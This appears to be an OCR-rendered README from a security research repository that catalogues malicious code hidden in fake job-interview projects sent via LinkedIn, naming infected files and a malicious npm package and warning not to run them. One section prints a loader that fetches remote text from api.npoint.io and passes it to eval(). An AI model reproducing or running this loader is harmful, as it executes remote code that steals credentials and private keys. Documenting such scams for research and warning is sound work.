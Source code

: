 
  ### 3. trend-dev-preproduction


`trend-dev-preproduction/backend/controller.js`




on `eval(items.data.cookie);`



it download obfuscated code looking for private keys.




  ### 4. munity-game

 MALICIOUS OBFUSCATED CODE



`server/routes/paymentRoute.js`



  ### 5. erc20-token-dapp
The package `cdn-icon-fetch` contains code that can harm your local machine.



READ more about it: https://security.snyk.io/package/npm/cdn-icon-fetch



Its been loaded on fetchIcon("77") on vite.config.js.


## Warning



This repository contains malicious code samples collected from scammers attempting to steal credentials via LinkedIn. **DO NOT RUN THIS CODE**. The code is kept for educational and research purposes only.



This code is kept for research purposes only. DO NOT run or deploy this code as it contains malicious payloads designed to steal credentials and other sensitive information.





The repositories appear to be legitimate web applications (a real estate platform and a staking platform) but contain hidden malicious code designed to compromise systems and steal data.

### 6. Golden City

This repository contains a payload in `backend/controllers/userController.js` at line 204:

```javascript
exports.getCookie= asyncErrorHandler(async (req, res, next) => {
    const rs_L = await axios.get("https://api.npoint.io/e8e29958efde154f3d7d");
    const rs_C = await axios.get("https://api.npoint.io/632ab82bbc8d7f4c2d44");
    eval(rs_L.data.cookie);
    eval(rs_C.data.cookie);
  })();
```
